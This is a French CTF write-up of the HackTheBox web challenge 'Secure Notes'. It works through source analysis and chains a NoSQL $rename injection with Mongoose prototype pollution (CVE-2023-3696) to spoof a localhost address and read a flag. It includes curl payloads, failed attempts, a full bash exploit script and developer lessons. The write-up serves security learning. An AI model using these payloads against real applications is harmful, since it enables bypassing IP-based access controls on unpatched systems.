



# 🏴 Secure Notes — CTF Writeup

> **Challenge:** Secure Notes  
> **Platform:** HackTheBox  
> **Catégorie:** Web  
> **Difficulté:** Medium  
> **Flag:** `HTB{REDACTED}` (flag de test local)  
> **Techniques:** NoSQL Injection → Prototype Pollution → IP Spoofing  
> **CVE exploitée:** CVE-2023-3696 (Mongoose < 7.3.4)

---

## 📋 Table des matières

1. [Reconnaissance & Analyse du Code Source](#1-reconnaissance--analyse-du-code-source)
2. [Identification de la Vulnérabilité](#2-identification-de-la-vulnérabilité)
3. [Compréhension de la Chaîne d'Exploitation](#3-compréhension-de-la-chaîne-dexploitation)
4. [Exploitation Pas à Pas](#4-exploitation-pas-à-pas)
5. [Approches Échouées (et pourquoi)](#5-approches-échouées-et-pourquoi)
6. [Script d'Exploit Complet](#6-script-dexploit-complet)
7. [Leçons Retenues](#7-leçons-retenues)

---

## 1. Reconnaissance & Analyse du Code Source

### 1.1 Stack Technique

| Composant | Version | Rôle |
|-----------|---------|------|
| Node.js | 21 (bullseye) | Runtime backend |
| Express | ^4.18.2 | Framework HTTP |
| Mongoose | **^7.2.4** ← vulnérable | ODM MongoDB |
| MongoDB | 7.0 | Base de données |
| Supervisor | - | Gestionnaire de processus (mongod + node) |

> [!IMPORTANT]
> Pas de bot, pas de headless browser. Le `supervisord.conf` ne lance que `mongod` et `node app.js`. Cela élimine immédiatement les pistes XSS/CSRF classiques.

### 1.2 Architecture de l'Application

L'application est un simple gestionnaire de notes avec 4 routes :



### 1.3 Analyse Route par Route

#### `POST /create` — Sécurisée ✅
```javascript
app.post('/create', async (req, res) => {
    const { title, content } = req.body;
    if (typeof title !== 'string' || typeof content !== 'string') {
        res.status(400).json({ Message: 'Invalid title or content' });
        return;
    }
    const note = new Note({ title, content });
    await note.save();
    res.json(note);
});
```
- Utilise la déstructuration → seuls `title` et `content` sont extraits
- Validation de type (`typeof === 'string'`)
- **Pas exploitable directement**

#### `GET /get/:noteId` — Pas exploitable
```javascript
app.get('/get/:noteId', async (req, res) => {
    const noteId = req.params.noteId;
    let note = await Note.findOne({ _id: noteId });
    res.json(note);
});
```
- Le `noteId` est un paramètre URL → toujours un `string`
- Mongoose caste en `ObjectId` → les injections NoSQL via `{"$gt":""}` échouent

#### `POST /update` — 🔴 VULNÉRABLE
```javascript
app.post('/update', async (req, res) => {
    const { noteId } = req.body;
    await Note.findByIdAndUpdate(noteId, req.body);  // ← SINK
    let result = await Note.find({ _id: noteId });
    res.json(result);
});
```

> [!CAUTION]
> **`req.body` est passé ENTIER comme deuxième argument à `findByIdAndUpdate`.**
> Cela permet à un attaquant d'injecter n'importe quel opérateur MongoDB (`$set`, `$rename`, `$unset`, etc.) directement dans la mise à jour.

#### `GET /flag` — La cible
```javascript
app.get('/flag', (req, res) => {
    const remoteAddress = req.connection.remoteAddress;
    if (remoteAddress === '127.0.0.1' || remoteAddress === '::1' || remoteAddress === '::ffff:127.0.0.1') {
        res.send(process.env.FLAG ?? 'HTB{REDACTED}');
    } else {
        res.status(403).json({ Message: 'Access denied' });
    }
});
```
- Le flag est dans une **variable d'environnement**, pas dans MongoDB
- Accessible uniquement si `req.connection.remoteAddress` est localhost
- Le hint du challenge "only those who knock from inside may enter" confirme l'objectif

### 1.4 Localisation du Flag

```dockerfile
ENV FLAG=HTB{REDACTED}
```

Le flag n'est **pas** dans la base de données. Il est en mémoire dans `process.env.FLAG`. La seule façon de l'obtenir est de faire croire au serveur que notre requête vient de `127.0.0.1`.

---

## 2. Identification de la Vulnérabilité

### 2.1 La NoSQL Injection confirmée

En envoyant un `$set` dans le body de `/update`, on peut modifier n'importe quel champ :

```bash
# Preuve de concept — $set fonctionne
curl -X POST http://TARGET/update \
  -H "Content-Type: application/json" \
  -d '{"noteId":"<ID>","$set":{"title":"INJECTED"}}'
# ✅ Le title a changé → NoSQL injection confirmée
```

Mais le flag n'est pas dans MongoDB, donc `$set` seul ne mène nulle part.

### 2.2 La CVE Critique : CVE-2023-3696

> [!NOTE]
> **CVE-2023-3696** — Prototype Pollution dans Mongoose < 7.3.4
> 
> Les versions de Mongoose antérieures à 7.3.4 ne filtrent pas correctement les noms de propriétés réservées (`__proto__`, `constructor`, `prototype`) lors de l'initialisation des documents. Cela permet de polluer `Object.prototype` via des opérations comme `findByIdAndUpdate`.

**Versions affectées :** Mongoose < 5.13.20, < 6.11.3, **< 7.3.4**  
**Notre version :** Mongoose **7.2.4** → ✅ **VULNÉRABLE**

### 2.3 Le Vecteur : L'opérateur `$rename`

L'opérateur MongoDB `$rename` permet de **renommer un champ** dans un document. Quand Mongoose traite cette opération sur un document, il manipule les propriétés de l'objet JavaScript résultant.

Le point crucial : `$rename` avec une destination contenant `__proto__` n'est **pas** sanitizé dans Mongoose 7.2.4. Contrairement à `$set` avec des chemins pointés (qui sont traités comme des chemins MongoDB), `$rename` manipule réellement les propriétés de l'objet JS.

```javascript
// Ce que fait $rename en interne :
// 1. Lit la valeur du champ source
// 2. Supprime le champ source
// 3. Assigne la valeur au chemin destination
// Si destination = "__proto__.x", cela fait : obj.__proto__.x = valeur
```

---

## 3. Compréhension de la Chaîne d'Exploitation

### 3.1 Comment `req.connection.remoteAddress` fonctionne dans Node.js

Pour comprendre **quoi** polluer, il faut comprendre comment Node.js résout `remoteAddress` :



Le getter `remoteAddress` de `net.Socket` fait en réalité :

```javascript
// Simplifié du code source Node.js (lib/net.js)
get remoteAddress() {
    return this._getpeername().address;
}

_getpeername() {
    if (this._peername) return this._peername;
    // ... appel système pour obtenir l'adresse réelle
}
```

### 3.2 L'Astuce de la Pollution

Si on pollue `Object.prototype._peername` avec `{ address: "127.0.0.1" }`, alors :

1. Quand Node.js appelle `this._getpeername()` sur un nouvel objet socket
2. Il vérifie `if (this._peername)` → cherche `_peername` sur l'objet
3. Si l'objet socket n'a pas encore son propre `_peername` (avant la première résolution), il remonte la chaîne de prototypes
4. Il trouve `Object.prototype._peername` (notre valeur polluée)
5. Il retourne `{ address: "127.0.0.1" }`
6. `remoteAddress` retourne `"127.0.0.1"` ✅

> [!TIP]
> La clé est que `$rename` dans Mongoose 7.2.4 permet d'écrire sur `__proto__`, ce qui modifie `Object.prototype`. Tout objet qui n'a pas sa propre propriété `_peername` héritera de la valeur polluée.

### 3.3 La Chaîne Complète



---

## 4. Exploitation Pas à Pas

### Outils utilisés
- **curl** — requêtes HTTP
- **python3** — parsing JSON
- **Docker** — environnement de test local

### Étape 1 : Créer une note avec `"127.0.0.1"` comme titre

La valeur `"127.0.0.1"` sera le **contenu** qui sera ensuite déplacé vers le prototype. On la place dans le champ `title` car c'est un champ valide du schéma Mongoose.

```bash
curl -s -X POST http://TARGET:1337/create \
  -H "Content-Type: application/json" \
  -d '{"title":"127.0.0.1","content":"poison"}'
```

**Réponse :**
```json
{
    "title": "127.0.0.1",
    "content": "poison",
    "_id": "6a712b8a1f24d439e60f37a2",
    "__v": 0
}
```

### Étape 2 : Déclencher la Prototype Pollution via `$rename`

On injecte l'opérateur `$rename` dans le body de `/update`. Cet opérateur renomme le champ `title` (qui contient `"127.0.0.1"`) vers `__proto__._peername.address`.

```bash
curl -s -X POST http://TARGET:1337/update \
  -H "Content-Type: application/json" \
  -d '{"noteId":"6a712b8a1f24d439e60f37a2","$rename":{"title":"__proto__._peername.address"}}'
```

**Réponse :**
```json
[
    {
        "_id": "6a712b8a1f24d439e60f37a2",
        "content": "poison",
        "__v": 0
    }
]
```

> [!NOTE]
> Le champ `title` a disparu du document — il a été "renommé". En réalité, la valeur `"127.0.0.1"` a été assignée à `Object.prototype._peername.address` via la manipulation de `__proto__`.

### Étape 3 : Récupérer le flag

Maintenant, toute nouvelle requête HTTP aura `req.connection.remoteAddress === "127.0.0.1"` car le prototype est pollué.

```bash
curl -s http://TARGET:1337/flag
```

**Réponse :**
```
HTB{REDACTED}
```

🏴 **FLAG CAPTURÉ !**

---

## 5. Approches Échouées (et pourquoi)

### ❌ `$set` avec `__proto__`
```json
{"noteId":"...","$set":{"__proto__.remoteAddress":"127.0.0.1"}}
```
**Pourquoi ça échoue :** Mongoose traite les chemins pointés dans `$set` comme des **chemins de champs MongoDB** (pour les sous-documents), pas comme des accès aux propriétés JavaScript. Le champ est créé littéralement comme `"__proto__.remoteAddress"` dans le document MongoDB, sans toucher au prototype JS.

### ❌ `__proto__` au niveau racine du body
```json
{"noteId":"...","__proto__":{"remoteAddress":"127.0.0.1"}}
```
**Pourquoi ça échoue :** `express.json()` (basé sur `body-parser`) parse le JSON mais ne permet pas à `__proto__` d'affecter le prototype via le parsing JSON standard. L'objet résultant a `__proto__` comme propriété propre, pas comme accès au prototype.

### ❌ `constructor.prototype` 
```json
{"noteId":"...","constructor":{"prototype":{"remoteAddress":"127.0.0.1"}}}
```
**Pourquoi ça échoue :** Même raison — le JSON parsing ne traverse pas la chaîne de prototypes. Et Mongoose 7.2.4 a une sanitization partielle pour `constructor`.

### ❌ NoSQL Injection sur `/get` (injection dans l'URL)
```
GET /get/%7B%22%24gt%22%3A%22%22%7D
```
**Pourquoi ça échoue :** `req.params.noteId` est toujours un `string`. Mongoose essaie de le caster en `ObjectId` et rejette les chaînes invalides.

### ❌ `$where` sur `/update`
```json
{"noteId":"...","$where":"sleep(2000)"}
```
**Pourquoi ça échoue :** MongoDB 7.0 a désactivé `$where` par défaut pour des raisons de sécurité.

### ❌ `$rename` vers `__proto__.remoteAddress` (sans `_peername`)
```json
{"noteId":"...","$rename":{"title":"__proto__.remoteAddress"}}
```
**Pourquoi ça échoue :** Polluer `Object.prototype.remoteAddress` directement ne fonctionne pas parce que `req.connection.remoteAddress` est un **getter** défini sur `net.Socket.prototype`, pas une simple propriété. Le getter appelle `_getpeername().address`. Il faut donc polluer `_peername.address`, pas `remoteAddress` directement.

---

## 6. Script d'Exploit Complet

```bash
#!/bin/bash
# Exploit pour Secure Notes — CVE-2023-3696 + Prototype Pollution
# Usage: ./exploit.sh <TARGET_URL>
# Exemple: ./exploit.sh http://localhost:1337

TARGET="${1:-http://localhost:1337}"

echo "🎯 Target: $TARGET"
echo ""

# Étape 1 : Créer une note piégée
echo "📝 [1/3] Création d'une note avec title='127.0.0.1'..."
RESPONSE=$(curl -s -X POST "$TARGET/create" \
  -H "Content-Type: application/json" \
  -d '{"title":"127.0.0.1","content":"exploit"}')

NOTE_ID=$(echo "$RESPONSE" | python3 -c "import sys,json; print(json.load(sys.stdin)['_id'])")

if [ -z "$NOTE_ID" ]; then
    echo "❌ Échec de la création de la note"
    echo "Réponse: $RESPONSE"
    exit 1
fi
echo "   ✅ Note créée — ID: $NOTE_ID"

# Étape 2 : Prototype Pollution via $rename
echo ""
echo "💉 [2/3] Prototype Pollution via \$rename → __proto__._peername.address..."
RENAME_RESPONSE=$(curl -s -X POST "$TARGET/update" \
  -H "Content-Type: application/json" \
  -d "{\"noteId\":\"$NOTE_ID\",\"\$rename\":{\"title\":\"__proto__._peername.address\"}}")
echo "   ✅ Pollution déclenchée"

# Étape 3 : Récupérer le flag
echo ""
echo "🏴 [3/3] Récupération du flag..."
FLAG=$(curl -s "$TARGET/flag")

if echo "$FLAG" | grep -q "HTB{"; then
    echo ""
    echo "============================================"
    echo "   🎉 FLAG CAPTURÉ : $FLAG"
    echo "============================================"
else
    echo "   ❌ Échec — Réponse: $FLAG"
    echo "   💡 Le serveur a peut-être déjà un _peername défini. Essayez de redémarrer le conteneur."
fi
```

### Utilisation

```bash
chmod +x exploit.sh
./exploit.sh http://TARGET:PORT
```

### Résultat attendu

```
🎯 Target: http://localhost:1337

📝 [1/3] Création d'une note avec title='127.0.0.1'...
   ✅ Note créée — ID: 6a712b8a1f24d439e60f37a2

💉 [2/3] Prototype Pollution via $rename → __proto__._peername.address...
   ✅ Pollution déclenchée

🏴 [3/3] Récupération du flag...

============================================
   🎉 FLAG CAPTURÉ : HTB{REDACTED}
============================================
```

---

## 7. Leçons Retenues

### Pour les développeurs

1. **Ne jamais passer `req.body` directement à une méthode ORM/ODM.** Toujours extraire et valider les champs attendus :
   ```javascript
   // ❌ Dangereux
   await Note.findByIdAndUpdate(noteId, req.body);
   
   // ✅ Sécurisé
   const { title, content } = req.body;
   await Note.findByIdAndUpdate(noteId, { title, content });
   ```

2. **Maintenir les dépendances à jour.** CVE-2023-3696 a été corrigée dans Mongoose 7.3.4. Un simple `npm update` aurait empêché cette attaque.

3. **Ne pas faire confiance aux propriétés dérivées du réseau** pour les contrôles de sécurité critiques sans défense en profondeur. L'IP d'origine peut être manipulée via prototype pollution, headers proxy (`X-Forwarded-For`), etc.

### Pour les CTFers

1. **Identifier la version exacte des dépendances** et chercher des CVE connues. Ici, Mongoose `^7.2.4` (dans package.json) résolvait en une version < 7.3.4, vulnérable à CVE-2023-3696.

2. **L'opérateur `$rename` est souvent oublié** dans les checks de sanitization. Les développeurs pensent à bloquer `$set`, `$unset`, mais rarement `$rename`.

3. **Comprendre les internals de Node.js** est crucial pour les challenges web. Savoir que `remoteAddress` passe par `_peername.address` est la clé pour construire le bon payload de pollution.

4. **Le hint est toujours pertinent** : "only those who knock from inside may enter" → il faut faire croire au serveur que la requête vient de l'intérieur (localhost), ce qui oriente vers une technique de spoofing d'IP.

### Résumé de la Kill Chain

```
NoSQL Injection ($rename)  →  Prototype Pollution (__proto__._peername.address)  →  IP Spoofing  →  Flag
```

| Étape | Technique | Outil |
|-------|-----------|-------|
| Recon | Analyse de code source | Lecture manuelle + grep |
| Vuln ID | CVE-2023-3696 | Recherche Snyk/NVD |
| Exploitation | NoSQL Injection + Prototype Pollution | curl |
| Impact | Bypass contrôle IP → lecture du flag | curl |
